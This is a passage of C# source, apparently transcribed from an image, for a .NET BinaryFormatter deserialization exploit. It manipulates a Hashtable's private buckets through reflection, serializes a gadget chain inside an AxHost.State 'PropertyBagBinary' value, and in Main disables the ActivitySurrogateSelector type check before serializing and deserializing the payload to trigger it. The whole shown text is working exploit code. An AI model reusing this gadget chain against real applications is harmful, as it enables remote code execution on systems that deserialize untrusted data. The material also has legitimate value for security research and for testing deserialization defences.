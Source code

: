```bash
            FieldInfo fi_keys = ht.GetType().GetField("buckets", BindingFlags.NonPublic | BindingFlags.Instance);
            Array keys = (Array)fi_keys.GetValue(ht);  //buckets
            FieldInfo fi_key = keys.GetType().GetElementType().GetField("key", BindingFlags.Public | BindingFlags.Instance);
            for (int i = 0; i < keys.Length; ++i)
            {
                object bucket = keys.GetValue(i);
                object key = fi_key.GetValue(bucket);
                if (key is string)
                {
                    fi_key.SetValue(bucket, verb);
                    keys.SetValue(bucket, i);
                    break;
                }
            }

            fi_keys.SetValue(ht, keys);

            ls.Add(ht);

            BinaryFormatter fmt1 = new BinaryFormatter();
            MemoryStream stm = new MemoryStream();
            fmt1.SurrogateSelector = new MySurrogateSelector();
            fmt1.Serialize(stm, ls);
            //info.AddValue("DataSet.Tables_0", stm.ToArray());
            /*
            BinaryFormatter fmt2 = new BinaryFormatter();
            stm.Seek(0, SeekOrigin.Begin);
            fmt2.Deserialize(stm);
            */
            return stm.ToArray();
        }

        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            System.Diagnostics.Trace.WriteLine("In GetObjectData");
            info.SetType(typeof(System.Windows.Forms.AxHost.State));
            info.AddValue("PropertyBagBinary", GadgetChains());
        }
    }



    class Program
    {

        static void Main(string[] args)
        {
            System.Configuration.ConfigurationManager.AppSettings.Set("microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck", "true");
            BinaryFormatter fmt1 = new BinaryFormatter();
            BinaryFormatter fmt2 = new BinaryFormatter();
            MemoryStream stm = new MemoryStream();
            PayloadClass test = new PayloadClass();
            fmt1.SurrogateSelector = new MySurrogateSelector();
            fmt1.Serialize(stm, test);
            stm.Seek(0, SeekOrigin.Begin);
            fmt2.Deserialize(stm);
        }
    }
}
```